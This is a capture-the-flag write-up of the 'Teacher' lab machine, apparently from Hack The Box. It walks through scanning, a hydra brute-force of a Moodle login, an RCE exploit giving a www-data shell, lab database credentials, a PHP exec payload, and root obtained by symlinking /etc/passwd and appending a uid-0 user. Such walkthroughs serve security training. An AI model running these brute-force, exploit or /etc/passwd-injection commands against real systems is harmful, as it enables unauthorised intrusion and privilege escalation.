## Overview

Teacher is a debian box running moodle which is vulnerable to remote code execution.  A hint for giovanni's password is hidden in a png file on the website. Hydra was used to crack the passwod and gain the credentials required to run the exploit which provides shell as www-data. Enumerating the filesystem uncovers a password for mariadb which contains a hashed MD5 password which is easily findable from an internet search. I was able to switch users to giovanni and take advantage of a backup script run by script that runs the chmod 777 command. A symbolic link is created to /etc/password giving me full permissions and allowing me to add a user with root permissions to the system.

## Enumeration

**Software**

* Debian 9.5 Stretch
* Apache 2.4.25
* mysql  Ver 15.1 Distrib 10.1.26-MariaDBsudo
* moodle 3.4

**Port Scan**

```
nmap -sT -A -p- 10.10.10.153 -oN ~/boxes/teacher/_full_tcp_nmap.txt
```
* 80/tcp - http

**Directory/File Brute Force**

```
gobuster dir -u http://10.10.10.153 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,html -t 40
```

* /gallery.html - stock pictures
* /index.html - main school website
* /images - large list of png files
* /css - contains style.css
* /manual - Apache HTTP Server Version 2.4 documentation
* /js - 3 javascript files
* /javascript - forbidden
* /fonts - font files
* /phpmyadmin - forbidden
* /moodle - redirected to school course information page


```
gobuster dir -u http://10.10.10.153/moodle -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,html -t 40
```
* /media
* /files
* /user
* /calendar
* /version.php
* /admin
* /comment
* /report
* /local
* /pix
* /tag
* /rss
* /search
* /login
* /group
* /my
* /blog
* /index.php
* /install
* /install.php
* /lib
* /portfolio
* /cache
* /notes
* /message
* /lang
* /theme
* /blocks
* /question
* /config.php
* /backup
* /rating
* /filter
* /mod
* /auth
* /course
* /error
* /badges
* /repository
* /analytics
* /availability
* /webservice
* /plagiarism
* /competency


## Steps (user)

Browsing to http://10.10.10.153 brought me to a school webpage.  



As I was looking over the site, trying different functionality and viewing the source code I found this in gallery.html's source.



I downloaded 5.png and ran exiftool on it which showed that it was a text file. Printing the file to screen showed a message and partial password for user Govanni



```
Hi Servicedesk,

I forgot the last charachter of my password. The only part I remembered is Th4C00lTheacha.

Could you guys figure out what the last charachter is, or just reset it?

Thanks,
Giovanni
```

I wasn't able to find any additional information so I moved on. Looking back at the gobuster results, I browsed to http://10.10.10.158/moodle



I clicked on various links and pages and didn't find anything useful. I did an internet search and found that I could get the version number by browsing to http://10.10.10.153/moodle/lib/upgrade.txt - 3.4



A search for moodle 3.4 in searchsploit showed one result. Reviewing this exploit I learned that a user with the teacher role could execute arbitrary code. https://blog.ripstech.com/2018/moodle-remote-code-execution/


I went to the login page and tried some basic username/password combos (admin/password, admin/teacher, etc) but none of them worrked but I did have a partial password for giovanni. I decided to use hydra to brute force his account. Since I only needed to guess the last character I used crunch to generate a password list, using ascii-32-95 which includes all 95 characters on standard US keyboard and output to passwords.txt

```
crunch 15 15 -f /usr/share/rainbowcrack/charset.txt ascii-32-95 -t Th4C00lTheacha@ > passwords.txt
```



Next I enabled burp proxy so I could capture the post request needed to set up the hydra command.





The command was built as follows:

```
hydra -l giovanni -P passwords.txt 10.10.10.153 http-post-form "/moodle/login/index.php:anchor=&username=^USER^&password=^PASS^:Invalid Login"
```

The command succeeds and shows password as **Th4C00lTheacha#**



Heading back over to http://10.10.10.153/moodle/login/index.php I was able to log in as giovanni



Now that I had credentials I could use the moodle exploit. Reading the exploit the syntax is



```
php 46551.php url=http://10.10.10.153/moodle user=giovanni pass=Th4C00lTheacha# ip=10.10.10.153 port=80 course=2
```

> Note: Trying course=1 showed an error from the script asking if the script belonged to the teacher so I changed it to 2.

Received shell as www-data



I upgraded to a fully functioning shell by running the following commands.
```
python -c 'import pty;pty.spawn('/bin/bash')'
CTRL+Z
stty raw -echo
fg <enter><enter>
export SHELL=/bin/bash
export TERM=xterm-color
```

mariadb password



```
$CFG->dbtype    = 'mariadb';
$CFG->dblibrary = 'native';
$CFG->dbhost    = 'localhost';
$CFG->dbname    = 'moodle';
$CFG->dbuser    = 'root';
$CFG->dbpass    = 'Welkom1!';

```
I logged into mysql via the cli using the password found in config.php **Welkom1!**

```
mysql -u root -p
```


I ran a command to show databases (show databses;), selected moodle (use moodle;), showed tables (show tables;), and output all records for mdl_users (select * from mdl_user;). I found what looked like an MD5 hash



I did an internet search for the hash and found that a site had it already reversed. **expelled**



I used the command su log in as giovanni



```
while true; do pid=$(pgrep 'backup.sh' | head -1); if [[ -n "$pid" ]]; then strace  -s 2000 -vvtf -p "$pid"; break; fi; done
```
```
<?php echo exec('id > /tmp/b.txt'); ?>
```

## Steps (root/system)

Reviewing giovanni's home directory I found a folder called work which contained a file called backup_courses.tar.gz.



To see if any cron jobs were running I decided to us pspy so I copied it to my working directory and started a python http server

```
cp ~/tools/pspy/pspy32 .
sudo python3 -m http.server 80
```

Wget was used to copy pspy32 to the target and run it

```
wget http://10.10.14.21/pspy32
chmod +x pspy32 && ./pspy32
```

I saw that a file called backup.sh was being run



Taking a look at backup.sh
```
#!/bin/bash
cd /home/giovanni/work;
tar -czvf tmp/backup_courses.tar.gz courses/*;
cd tmp;
tar -xf backup_courses.tar.gz;
chmod 777 * -R;
```

This script does the following:
* changes to /home/giovanni/work
* creates a tar file of courses and all subfolders and stores a file called backup_courses.tar.gz in tmp
* changes to tmp folder
* extracts backup_courses.tar.gz
* changes permissions to chmod 777 recursively

I took advantage of the chmod 777 command by setting a symbolic link to /etc/passwd from a file in /home/giovanni/work/tmp/ called passwd. Once the script was run I was able to add a user and gain root privileges.

First I generated a password which was then appended to /etc/passwd
```
openssl passwd -1 -salt gonzo password
echo 'gonzo:$1$gonzo$1t.J8KuM9rxYwo.5voEfD/:0:0:/root/root:/bin/bash' >> /etc/passwd
```

I was then able to su to gonzo which gave me access as root.

```
su gonzo
```


